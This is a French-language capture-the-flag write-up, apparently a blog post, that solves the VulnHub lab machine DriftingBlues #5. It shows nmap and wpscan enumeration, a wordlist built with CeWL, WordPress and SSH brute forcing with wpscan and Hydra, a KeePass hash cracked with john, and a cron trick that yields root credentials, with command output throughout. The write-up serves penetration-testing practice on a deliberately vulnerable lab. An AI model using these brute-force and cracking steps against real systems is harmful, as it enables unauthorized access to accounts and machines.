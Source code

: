 # Solution du CTF DriftingBlues #5 de VulnHUb

Le 5ème élément
---------------

Challenge téléchargeable sur VulnHub [à cette adresse](https://www.vulnhub.com/entry/driftingblues-5,662/). Nmap nous indique tout de suite la présence d'un Wordpress.  

```plain
$ sudo nmap -sCV -T5 -p- 192.168.56.10 
[sudo] Mot de passe de root :  
Starting Nmap 7.92 ( https://nmap.org )
Nmap scan report for 192.168.56.10 
Host is up (0.00039s latency). 
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-generator: WordPress 5.6.2 
|_http-title: diary – Just another WordPress site 
|_http-server-header: Apache/2.4.38 (Debian)
```

C'est toujours mieux d'avoir un outil pour énumérer les utilisateurs au lieu de le faire à la main :  

```plain
$ docker run -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -e ap,at,u
--- snip ---

[+] abuzerkomurcu 
 | Found By: Author Posts - Author Pattern (Passive Detection) 
 | Confirmed By: 
 |  Rss Generator (Passive Detection) 
 |  Wp Json Api (Aggressive Detection) 
 |   - http://192.168.56.10/index.php/wp-json/wp/v2/users/?per_page=100&page=1 
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 |  Login Error Messages (Aggressive Detection) 

[+] gill 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] collins 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] satanic 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] gadd 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Comme cette série de CTFs se prête volontiers aux jeux de pistes j'ai directement extrait les mots des pages web en utilisant CeWL. Exemple :  

```plain
$ docker run -it --rm cewl http://192.168.56.10/index.php/2021/02/24/a-deep-dive-on-the-blancpain-fifty-fathoms/ >> words.txt
```

Bien sûr on prendra soin de trier et de retirer les doublons (voir pages de manuel de sort et uniq) avant de bruteforcer.  

```plain
$ docker run -v /tmp/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -U abuzerkomurcu,gill,collins,satanic,gadd -P /data/words.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: gill, Password: interchangeable
```

Hmmm cet utilisateur n'est pas l'admin. Il peut uploader des médias mais le type de fichier est vérifié...  

Sur le Wordpress je remarque une page de brouillon baptisée *Privacy Policy — Draft, Privacy Policy Page* malheureusement je ne peux pas y accéder.  

Dans la liste des images uploadées il y a le fichier *dblogo.png*. Il ne m'avait pas spécialement attiré, d'autant plus que les dossiers sous */wp-content/uploads/* sont listables, il n'y a donc aucun besoin d'obtenir un compte sur le Wordpress pour le retrouver. Quoiqu'il en soit si on le regarde avec un éditeur hexa on trouve ce tag EXIF :  

```html
<rdf:li photoshop:LayerName="ssh password is 59583hello of course it is lowercase maybe not " photoshop:LayerText="ssh password is 59583hello of course it is lowercase maybe not :)"/>
```

Je n'avais pas envie de me casser la tête dessus alors j'ai réutilisé un code Python [ici](https://www.geeksforgeeks.org/permute-string-changing-case/). Il n'est pas parfait, il génère des dupliquas quand le mot contient des caractères autres que des lettres.  

Une fois la wordlist avec les permutations générées on se rend compte que ça ne servait à rien :  

```plain
$ hydra -L users.txt -P cases.txt ssh://192.168.56.10 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 160 login tries (l:5/p:32), ~10 tries per task 
[DATA] attacking ssh://192.168.56.10:22/ 
[22][ssh] host: 192.168.56.10   login: gill   password: 59583hello 
1 of 1 target successfully completed, 1 valid password found
```

L'accès SSH obtenu permet d'obtenir un premier flag.  

Password exchange
-----------------

Dans le dossier de l'utilisateur se trouve une archive pour le gestionnaire de mots de passe Keypass. On utilise un utilitaire de *John The Ripper* pour en obtenir un hash :  

```plain
$ keepass2john keyfile.kdbx  
keyfile:$keepass$*2*60000*0*86fe1a63955b5984c0adb127a869153f24c41fdc56678d555f778d1309f9867c*e580d1bef4bf0f44b845fce13c9648cd22f143760be5bae503a419a7f76a21f0*e99d45aab90c26200191dbca6b3fae34*e3169392c5eec5e094b
1f22a01084f894598280874de2bf8291ea2185051f7e3*78d0b1eb59343754ce0ce33b2efb5e25c595317099a65ed208bfc2f6ab8c8dcd
```

C'est cassé relativement rapidement sans GPU :  

```plain
$ john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8 
Loaded 1 password hash (KeePass [SHA256 AES 32/64]) 
Cost 1 (iteration count) is 60000 for all loaded hashes 
Cost 2 (version) is 2 for all loaded hashes 
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes 
Will run 4 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
porsiempre       (keyfile)
```

On en extrait les entrées suivantes :  

```plain
2real4surreal
buddyretard
closet313
exalted
fracturedocean
zakkwylde
```

Aucun de ces mots de passe n'est accepté pour *root* que ce soit via *su* ou *SSH*... oups.  

LinPEAS indique la présence d'un dossier inhabituel à la racine :  

```plain
╔══════════╣ Unexpected in root 
/vmlinuz.old 
/initrd.img 
/initrd.img.old 
/vmlinuz 
/keyfolder
```

Ce dernier dossier est vide... WTF !  

Si on vérifie les processus lancés sur la machine avec *pspy* on voit une tache cron :  

```plain
2022/01/20 13:00:01 CMD: UID=0    PID=14314  | /usr/sbin/CRON -f  
2022/01/20 13:00:01 CMD: UID=0    PID=14315  | /bin/sh -c /root/key.sh  
2022/01/20 13:00:01 CMD: UID=0    PID=14316  | /bin/bash /root/key.sh
```

Et le script en question n'est pas accessible. Ma seule idée a été de créer des fichiers ayant le nom des pass précédemment trouvés dans le dossier. L'idée était finalement correcte mais il ne fallait placer qu'un seul fichier à la fois. Ainsi avec *fracturedocean* la tache CRON faisait apparaître un fichier *rootcreds.txt* avec le contenu suivant :  

```plain
root creds 

imjustdrifting31
```

Ces identifiants permettent bien sûr l'accès root et l'obtention du flag final.  

Sous le capot
-------------

Voici le script lié à la tache CRON :  

```bash
#!/bin/bash 

if [[ $(ls /keyfolder) == "fracturedocean" ]]; then 
        echo "root creds" >> /keyfolder/rootcreds.txt 
        echo "" >> /keyfolder/rootcreds.txt 
        echo "imjustdrifting31" >> /keyfolder/rootcreds.txt 
fi

```

Un peu déçu sur ce CTF par rapport aux autres en raison d'un peu de guessing. Il aurait fallut que l'image ait un nom plus explicite et le script final devrait fonctionner à partir du moment où le fichier attendu est présent.  


*Published January 20 2022 at 18:11*
